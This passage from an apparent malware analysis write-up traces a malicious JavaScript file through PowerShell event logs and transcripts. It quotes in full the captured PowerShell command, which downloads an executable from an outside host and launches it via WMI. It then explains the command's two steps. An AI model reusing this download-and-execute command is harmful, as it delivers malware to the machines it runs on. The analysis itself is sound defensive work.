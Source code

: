 ##### PowerShell Logs

Similarly, in the PowerShell Application logs, there’s a 4104 that gives the
PowerShell commandline: `(new-object
system.net.webclient).downloadfile('http://gostat.dhl-
tcp.com/page818.php','C:\Users\REM\AppData\Local\TempoUE18.EXE'); Invoke-
WmIMethoD -ClAsS WiN32_PrOcess -NAmE CrEAte -ArgUmentLisT
'C:\Users\REM\AppData\Local\TempoUE18.Exe'`

![1530930820785](https://0xdfimages.gitlab.io/img/1530930820785.png)

##### PowerShell Transcripts

And, in the transcript directory (for me, `c:\powershell`), we have a new
file, `PowerShell_transcript.DESKTOP-2C3IQHO.z4SNguC5.20180706222825.txt`. It
contains information about the computer, the user, the powershell versions,
and the full command line.

## PowerShell Analysis

Having just discovered the PowerShell command several different ways, let’s
take a quick look at what it does. There isn’t any obfuscation here other than
some mixed case on the back half.

The script will:

  1. Download a file from `hxxp://gostat.dhl-tcp.com/page818.php` and store it as `C:\Users\REM\AppData\Local\TempoUE18.EXE`.
  2. Use WMI to create a process from that exe path.

## Next Stage exe

At the time of writing, the server is not up, so I was unable to get the exe.
As this file was uplosed to VT almost two months ago, that isn’t surprising.

## Summary

This post really focused on several different ways to dynamically track what
happened when this javascript file was run. While in this case each tool
provided similar information, each will have strengths and weaknesses, and
there will be times where one is clearly ahead of the others.

[](/2018/07/07/malware-analysis-faktura_vat_115590300178js.html)

